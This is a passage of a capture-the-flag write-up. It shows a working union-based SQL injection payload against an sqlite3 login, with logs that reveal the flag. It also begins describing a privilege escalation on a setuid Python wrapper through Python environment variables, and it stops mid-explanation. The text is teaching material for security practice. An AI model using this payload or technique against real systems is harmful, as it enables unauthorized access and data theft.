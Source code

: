 This confirms that this is an SQL injection! After determining the remote database (which was a weirdly aggressive sqlite3 database which would not accept NULL on an UNION if it expected a string or an int), we just had to retrieve the flag.

A nice trick about sqlite3 is that it saves the SQL of some (past?) queries in the `sqlite_schema` table. This means that we can get the flag by simply leaking the SQL used in the database. To do so, we injected the following SQL: `admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' -- `. This returns the following:

```
...
2023/04/16 17:20:43 Validating login user=admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' --
2023/04/16 17:20:43 SQL statement=SELECT * FROM users WHERE name ='admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' -- ' AND pw ='admin'
2023/04/16 17:20:43 User exists with name=admin and pw=flag{eZ_M0n3y!1?}
```

## Ezila

This challange offered a remote shell to a server. In the server, there are a few interesting files:

```bash
$ ls -lah
total 64K
drwxrwxr-x 1 root  root  4.0K Apr 13 02:38 .
drwxr-xr-x 1 root  root  4.0K Apr 16 17:26 ..
-rw-rw-r-- 1 ezila ezila  187 Apr 13 02:20 CREDITS.txt
-rwxr-x--- 1 ezila ezila 7.7K Apr 13 02:20 ezila.py
-r-------- 1 ezila ezila   53 Apr 13 02:37 flag.txt
-rwsr-xr-x 1 ezila ezila  17K Apr 13 02:38 run-ezila
-r-------- 1 ezila ezila  14K Apr 13 02:20 script.txt
```

As we are not `ezila`, we can only read `CREDITS.txt` and run `run-ezila`.
After dumping the `run-ezila` ELF file, we saw that it simply was an interface to calling `ezila.py` with `uid=ezila(1001)`. There's no vulnerability in the ELF itself.

We searched around a little bit on Google due to a sentence in CREDITS.txt:

```
ELIZA-in-Python implementation forked from https://github.com/wadetb/eliza.

If you like the challenge, go give the original repo a star!

(If you don't like the challenge, blame us...)
```

It says that this is a fork. However, we could not find a fork of the linked repository, meaning that they probably lied to us.

Some hours and dumb tries later, we remembered about python environment variables. [This page](https://docs.python.org/3/using/cmdline.html) contains the full list of environment variables used by the python interpreter. There are many solutions using env variables, with the intended one probably being using `PYTHONPATH` to override some python methods called by `ezila.py`.
However, the one we found is pretty neat: [PYTHONINSPECT](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONINSPECT). As per the linked docs, this variable has the same meaning of passing `-i` in the `python` cmdline, that is:
